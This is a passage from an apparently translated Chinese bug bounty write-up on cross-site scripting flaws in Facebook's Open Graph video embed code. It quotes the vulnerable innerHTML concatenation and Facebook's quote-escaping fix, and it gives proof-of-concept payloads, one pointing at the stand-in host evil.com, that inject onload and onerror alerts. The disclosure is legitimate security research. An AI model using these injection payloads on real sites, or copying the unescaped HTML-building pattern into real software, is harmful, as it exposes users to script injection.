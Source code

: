 上面的的XSS需要Flash，所以我检查这里能否有一个不使用Flash的payload。

如果ogVideoType是“video / vimeo”，则会执行以下代码

```
ogVideoUrl = absolutizeUrl(ogVideoUrl);ogVideoUrl = ogVideoUrl.substr(ogVideoUrl.lastIndexOf('/') + 1);playerDiv.innerHTML = '&lt;iframe src="https://player.vimeo.com/video/' + ogVideoUrl + '?api=1"&gt;&lt;/iframe&gt;';
```

正如你可以看到 absolutizeUrl（ogURL）在注入playerDiv.innerHTML之前没有被urlencoded，所以当ogVideoUrl设置为

```
http://evil.com/#" onload="alert(document.domain)"
```

playerDiv.innerHTML则会变为：

```
&lt;iframe src="https://player.vimeo.com/video/#" onload="alert(document.domain)" ?api=1"&gt;&lt;/iframe&gt;
```

这又是Facebook.com上的XSS！

我在前一个XSS被修复的同一天报道了这一点，Facebook在同一天用如下方法修复了漏洞：

```
ogVideoUrl = absolutizeUrl(ogVideoUrl);ogVideoUrl = ogVideoUrl.substr(ogVideoUrl.lastIndexOf('/') + 1);playerDiv.innerHTML = '&lt;iframe src="https://player.vimeo.com/video/' + ogVideoUrl.split('"').join('&amp;quot;') + '?api=1"&gt;&lt;/iframe&gt;'
```

以下是这个XSS的视频：<br><video src="http://rs-beijing.oss.yunpan.360.cn/Object.getFile/anquanke/RmFjZWJvb2sgWFNTLm1wNA==" controls="controls" width="400" height="400"><br>
您的浏览器不支持video标签﻿<br></video>



第二天，我发现了另一个易受攻击的点：当ogVideoType是未知的类型，比如“video / nothing”时，Facebook会显示一条包含ogVideoUrl链接的错误消息，如下所示：

```
errorDiv.innerHTML = '&lt;a href="' +absolutizeUrl(ogVideoUrl ) + '"&gt;'
```

所以ogVideoUrl 的payload设置为

```
https://opnsec.com/#"&gt;&lt;img/src="xxx"onerror="alert(document.domain)
```

errorDiv.innerHTML则会变为：

`&lt;a href="https://opnsec.com/#"&gt;&lt;img src="xxx" onerror="alert(document.domain)"&gt;`

我把它报告给了Facebook，非常欢乐的是，来自Facebook的白帽子Neil告诉我，他计划在第二天检查这些代码！



## 哦，还有一件事…

另一种可能的ogVideoType是“silverlight”。[Silverlight](https://www.microsoft.com/silverlight/) 是微软公司的浏览器插件，它能与VBscript交互，就像Flash和JavaScript交互。
